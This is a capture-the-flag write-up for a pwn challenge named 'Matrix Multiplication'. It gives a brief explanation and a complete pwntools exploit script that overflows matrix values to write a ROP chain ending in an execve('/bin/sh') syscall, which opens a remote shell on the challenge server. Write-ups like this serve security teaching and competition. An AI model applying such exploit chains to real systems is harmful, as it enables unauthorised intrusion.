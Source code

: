 # Matrix Multiplication

## Question

> I got a message on Canvas from someone named "Morpheus" who needs help with his linear algebra homework. I don't think he's a classmate, but I'm intrigued anyway.  
> wake up, Neo. you need to find the Matrix. Escape that which confines you. follow the white rabbit morpheus  
> Connect using `nc pwn.osucyber.club 13380`

## Solution (by b01lers)

The idea is to send an identity matrix and a matrix we'll modify. I'm not sure what computations ended up happening on the matrix, my process was: send a large matrix, one of them the identity in case the result of the multiplication overflows, then figure out what's going on in gdb.

There was some weird thing going on which required me to subtract some number from the overflowed values, but I'm not sure why.

```
from pwn import *

context.terminal =['tmux', 'splitw', '-h']
#p = process("./mmaas-good")
#gdb.attach(p, '''
#b * 0x402383
#c
#''')
p = remote('pwn.osucyber.club', 13380)


size = 144
p.recvuntil(": ")
p.sendline(str(size))

p.recvuntil(':\n')
for i in range(size**2):
    if i % (size + 1) == 0:
        p.sendline("1")
    else:
        p.sendline("0")

p.recvuntil(':\n')
for i in range(size**2 - size):
    p.sendline("1")

for i in range(8):
    p.sendline(str(i))


pop_rdi = 0x00000000004019ba
pop_rsi = 0x000000000040f9ce
pop_rdx = 0x000000000040183f
printf = 0x455360
fake_flag = 0x4b4098
ret = 0x000000000040101a
print_err = 0x4233c0
syscall = 0x00000000004012e3
pop_rax = 0x00000000004526f7
sub = 0x8f
sh = 0x4cd51c
mov_ptr_rsi_rax = 0x000000000049a0a5
data = 0x00000000004e00e0

target = p64(pop_rsi)
for x in [c - sub for c in target]:
    p.sendline(str(x))

target = p64(data)
for x in [c - sub for c in target]:
    p.sendline(str(x))

target = p64(pop_rax)
for x in [c - sub for c in target]:
    p.sendline(str(x))

target = b"/bin/sh\x00"
for x in [c - sub for c in target]:
    p.sendline(str(x))

target = p64(mov_ptr_rsi_rax)
for x in [c - sub for c in target]:
    p.sendline(str(x))

target = p64(pop_rdi)
for x in [c - sub for c in target]:
    p.sendline(str(x))

target = p64(data)
for x in [c - sub for c in target]:
    p.sendline(str(x))

target = p64(pop_rsi)
for x in [c - sub for c in target]:
    p.sendline(str(x))

target = p64(0)
for x in [c - sub for c in target]:
    p.sendline(str(x))

target = p64(pop_rdx)
for x in [c - sub for c in target]:
    p.sendline(str(x))

target = p64(0)
for x in [c - sub for c in target]:
    p.sendline(str(x))

target = p64(pop_rax)
for x in [c - sub for c in target]:
    p.sendline(str(x))

target = p64(0x3b)
for x in [c - sub for c in target]:
    p.sendline(str(x))

target = p64(syscall)
for x in [c - sub for c in target]:
    p.sendline(str(x))

for i in range(size**2 - (size**2 - size)):
    p.sendline("4")

p.interactive()
```
